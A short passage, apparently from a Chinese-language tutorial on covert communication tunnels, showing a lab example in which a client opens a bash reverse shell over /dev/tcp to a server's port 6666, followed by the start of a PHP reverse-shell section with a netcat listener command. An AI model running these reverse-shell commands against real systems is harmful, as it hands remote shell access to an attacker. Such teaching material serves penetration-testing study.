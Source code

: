 客户端（192.168.2.7）执行bash命令反弹shell给服务端（192.168.2.12）：

```
bash -i >& /dev/tcp/192.168.2.12/6666 0>&1
```

![](./img/隐藏通信隧道基础知识/44.png)


（12）PHP反弹shell

服务端监听本地端口6666：

```
nc -lvp 6666
```
